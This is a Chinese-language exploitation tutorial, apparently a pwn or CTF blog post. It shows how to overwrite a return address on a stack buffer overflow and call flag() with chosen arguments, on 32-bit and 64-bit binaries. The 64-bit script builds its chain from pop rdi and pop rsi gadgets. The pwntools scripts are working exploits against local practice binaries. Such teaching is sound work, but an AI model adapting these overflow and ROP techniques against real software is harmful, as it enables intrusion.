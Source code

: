 # 攻击调用约定


利用调用约定。

<!--more-->

{{< link href="/pwn_assets/exploiting_with_params.zip" content="exploiting_with_params.zip" title="Download exploiting_with_params.zip" download="exploiting_with_params.zip" card=true >}}

## 0x01 32-bit

程序期望在执行函数之前栈是这样的布局：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3RoV.png"/>
</div>

那么我们为什么不这样提供呢？除了函数之外，我们还传递返回地址和参数：

<div align=center>
  <image src="https://s1.ax1x.com/2023/08/11/pPn3hJU.png"/>
</div>

`flag()` 地址之后的所有内容都将成为下一个函数的栈帧的一部分，因为它 **预期** 在那里
——只是我们没有使用 `push` 指令，而是手动覆盖它们。

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-32')

payload = b'A' * 52         # Padding 到 EIP
payload += p32(0x080491c7)  # flag() 的地址
payload += p32(0x0)         # 避免异常
payload += p32(0xdeadc0de)  # 第一个参数
payload += p32(0xc0ded00d)  # 第二个参数

p.sendline(payload)

p.interactive()
```

## 0x02 64-bit

相同的逻辑，只不过我们必须利用之前讨论过的 gadgets 来填充所需的寄存器（在本例中为
`rdi` 和 `rsi` ，因为我们有两个参数）。

我们必须在 *调用函数之前* 填充寄存器：

```python {title="exp.py"}
from pwn import *

context(os='linux', arch='amd64', log_level='info')

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9

payload = b'A' * 56          # Padding 到 RIP
payload += p64(POP_RDI)      # pop rdi ; ret
payload += p64(0xdeadc0de)   # 进入 rdi 的值 - 第一个参数
payload += p64(POP_RSI_R15)  # pop rsi ; pop r15 ; ret
payload += p64(0xc0ded00d)   # 进入 rsi 的值 - 第二个参数
payload += p64(0x0)          # 进入 r15 的值 - 避免异常
payload += p64(0x40116f)     # flag() 的地址
payload += p64(0x0)          # 避免异常

p.sendline(payload)

p.interactive()
```

{{<admonition type="info">}}

在返回地址后面加 0 本质是为了让程序有个返回的地方，防止异常，不然会返回到下面
奇奇怪怪的东西；有时候也可能是栈对齐，64-bit 程序执行 `system` 时会有一个检查，
确保栈指针是指着 0 的（结尾是 0），没有对齐的话就不能执行。

通常 0 可以替换为任意值，效果是一样的。只是习惯加 0。

{{</admonition>}}



---

> 作者: CuB3y0nd  
> URL: https://www.cubeyond.net/exploiting-calling-conventions/  


